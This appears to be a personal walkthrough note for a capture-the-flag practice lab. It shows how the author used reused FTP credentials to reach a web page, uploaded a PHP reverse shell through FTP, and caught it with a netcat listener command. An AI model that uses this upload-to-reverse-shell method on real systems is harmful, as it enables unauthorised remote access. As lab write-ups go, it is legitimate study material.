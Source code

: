 We have a webpage and it asks for authentication![](../attachment/a0e0e4bd7f008daef368d609d37e9bb6.png)

Now using the credentials obtained from ftp at [[PG Practice/AuthBy/21]]

We can login to the webpage:
offsec:elite
![](../attachment/b09a36fb2ed949008ed11260ac9351ee.png)

Now we can see the page. It is the same as the *index.php* file in ftp 
![](../attachment/5602f3778f9fb3c94698e2f8a5094ec3.png)
![](../attachment/816f7332914058a1499545b2a0d9f980.png)

So we can try to put a text file and check if it is accessible
```
echo "This is a test" > test.txt
```
Now in ftp:
```
put test.txt
```
![](../attachment/628982f7678c47994290b5ce5d5cb6e1.png)
It uploaded

Now we can try to access this file in the webpage![](../attachment/cffa20ea72194f7ca6a0ffc8eabe3190.png)
It works.

We can now try putting a php reverse shell. Go to revshells.com and get a reverse shell:
![](../attachment/05e9f7cb59c622660f7878489ed33d52.png)
We can save this in *php-reverse-shell.php* file

And now upload in ftp:
```
put php-reverse-shell.php
```
and access it in browser:
http://192.168.164.46:242/php-reverse-shell.php

We get a shell:
```
rlwrap nc -nlvp 3389
```
![](../attachment/b645eefa707314be4dadf1634f04918e.png)
